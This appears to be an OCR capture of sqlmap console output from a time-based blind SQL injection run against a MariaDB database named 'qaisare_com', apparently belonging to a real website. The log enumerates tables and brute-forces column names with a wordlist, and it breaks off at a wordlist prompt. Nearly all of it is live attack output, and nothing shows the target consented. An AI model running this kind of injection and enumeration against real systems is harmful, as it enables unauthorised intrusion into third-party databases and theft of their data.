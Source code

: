 web application technology: Apache, PHP 7.4.7
back-end DBMS: MySQL 5 (MariaDB fork)
[17:17:49] [INFO] fetching tables for database: 'qaisare_com'
[17:17:49] [INFO] fetching number of tables for database 'qaisare_com'
[17:17:49] [WARNING] time-based comparison requires larger statistical model, please wait..............................  (done)
[17:17:57] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 

[17:17:58] [WARNING] unable to retrieve the number of tables for database 'qaisare_com'
[17:17:58] [ERROR] unable to retrieve the table names for any database
[17:17:58] [INFO] fetching columns for table 'EMPLOYEE' in database 'qaisare_com'
[17:17:58] [INFO] retrieved: 
[17:17:59] [ERROR] unable to retrieve the number of columns for table 'EMPLOYEE' in database 'qaisare_com'
[17:17:59] [WARNING] unable to retrieve column names for table 'EMPLOYEE' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
[17:18:23] [WARNING] it's not recommended to use 'AND/OR time-based blind' and/or 'stacked queries' for common column existence check
are you sure you want to continue? [y/N] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom
> 1
[17:18:25] [INFO] checking column existence using items from '/usr/share/sqlmap/txt/common-columns.txt'
[17:18:25] [INFO] adding words used on web page to the check list
[17:20:22] [INFO] tried 459/2499 items (18%)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[17:26:53] [INFO] retrieved: mgrssn                                                              
[17:29:01] [INFO] retrieved: xencerramento                                                       
[17:29:29] [INFO] tried 1070/2499 items (43%)

[17:29:32] [INFO] adjusting time delay to 1 second due to good response times
[17:29:32] [INFO] retrieved: xsituacao                                                           
[17:29:35] [INFO] retrieved: site                                                                
[17:31:12] [INFO] retrieved: am_id                                                               
[17:31:17] [INFO] retrieved: udal                                                                
[17:33:20] [INFO] retrieved: mod_signallogin                                                     
[17:34:14] [INFO] retrieved: mod_freeway_admin                                                   
[17:34:15] [INFO] retrieved: orecchini                                                           
[17:34:16] [INFO] retrieved: nlista                                                              
[17:34:17] [INFO] retrieved: jfcategories                                                        
[17:34:18] [INFO] retrieved: mod_lxmenu                                                          
[17:34:19] [INFO] retrieved: id_comune                                                           
[17:34:20] [INFO] retrieved: idatleta                                                            
[17:34:21] [INFO] retrieved: inactive                                                            
[17:34:24] [INFO] retrieved: mod_sidebarmenuapplestyle                                           
[17:35:37] [INFO] retrieved: jenis                                                               
                                                                                                 
[17:35:52] [INFO] fetching entries for table 'EMPLOYEE' in database 'qaisare_com'
[17:35:52] [INFO] fetching number of entries for table 'EMPLOYEE' in database 'qaisare_com'
[17:35:52] [INFO] retrieved: 
[17:35:53] [WARNING] unable to retrieve the number of entries for table 'EMPLOYEE' in database 'qaisare_com'
[17:35:53] [INFO] fetching columns for table 'aggtest' in database 'qaisare_com'
[17:35:53] [INFO] retrieved: 
[17:35:54] [ERROR] unable to retrieve the number of columns for table 'aggtest' in database 'qaisare_com'
[17:35:54] [WARNING] unable to retrieve column names for table 'aggtest' in database 'qaisare_com'
do you want to use common column existence check? [y/N/q] y
which common columns (wordlist) file do you want to use?
[1] default '/usr/share/sqlmap/txt/common-columns.txt' (press Enter)
[2] custom